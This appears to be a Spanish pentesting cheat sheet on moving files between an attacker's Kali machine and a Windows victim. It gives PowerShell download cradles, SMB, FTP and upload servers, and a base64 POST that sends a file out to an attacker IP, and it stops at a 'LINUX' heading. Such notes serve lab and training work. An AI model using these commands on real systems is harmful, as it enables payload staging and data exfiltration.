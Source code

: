 # WINDOWS
Para descargar archivos desde nuestra máquina windows, podemos usar el siguiente comando:
```bash
(New-Object Net.WebClient).DownloadFile('http://192.168.0.28/script.py','C:\Users\mario\Desktop\pruebas\script.py')
```
![[Pasted image 20240603090243.png]]
![[Pasted image 20240603090256.png]]
Aunque también podemos descargar archivos de la siguiente forma:
```powershell
Invoke-WebRequest http://192.168.0.28/script.py -OutFile script.py
```
![[Pasted image 20240603090638.png]]
También podemos crear un servidor SMB desde linux para compartir archivos:
Si quiero compartir los archivos de un directorio en un recurso compartido en Windows, debo ubicarme en la carpeta donde los quiera compartir y ejecutar este comando:

![[Pasted image 20221217114627.png]]

Ahora desde la máquina víctima Windows nos descargamos el archivo del recurso compartido, poniendo primero la IP de la máquina Kali que está compartiendo el recurso, luego el nombre del archivo compartido y por último el nombre que le queramos poner:
![[Pasted image 20221217114634.png]]
Incluso también podemos establecer unas credenciales de acceso:
```powerhsell
impacket-smbserver recurso $(pwd) -smb2support -user test -password test
```
![[Pasted image 20240603091343.png]]
Y nos autenticamos de la siguiente forma:
```powershell
net use n: \\192.168.0.28\recurso /user:test test
```
![[Pasted image 20240603091450.png]]
![[Pasted image 20240603091456.png]]
## DESCARGAS FTP
Podemos también crear servidores ftp alojando archivos por ahí para descargarlos desde otra máquina:
```python
python3 -m pyftpdlib --port 21
```
![[Pasted image 20240603091553.png]]
Y podemos descargarlo con el siguiente comando:
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.0.28/script.py', 'C:\Users\mario\Desktop\pruebas\script.py')
```
![[Pasted image 20240603091720.png]]
![[Pasted image 20240603091726.png]]
## DESCARGAR CON UPLOADSERVER
También podemos levantar un servidor con python con uploadserver:
```python
python3 -m uploadserver
```
![[Pasted image 20240603092001.png]]
Y lo descargamos de esta forma:
```powershell
Invoke-FileUpload -Uri http://192.168.0.28:8000/upload -File C:\Users\mario\Desktop\pruebas\script.py
```
## ENVIAR ARCHIVO DESDE WINDOWS A LINUX
Podemos enviar un archivo desde windows de la siguiente forma:
```powershell
$b64 = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes('C:\Users\mario\Desktop\pruebas\script.py'))

Invoke-WebRequest -Uri http://192.168.0.28:443/ -Method POST -Body $b64
```
![[Pasted image 20240603092316.png]]
Y con netcat lo recibimos:
![[Pasted image 20240603092333.png]]
Lo decodificamos y ya tenemos el archivo:
```bash
echo <base64> | base64 -d -w 0 > hosts
```
![[Pasted image 20240603092405.png]]
# LINUX
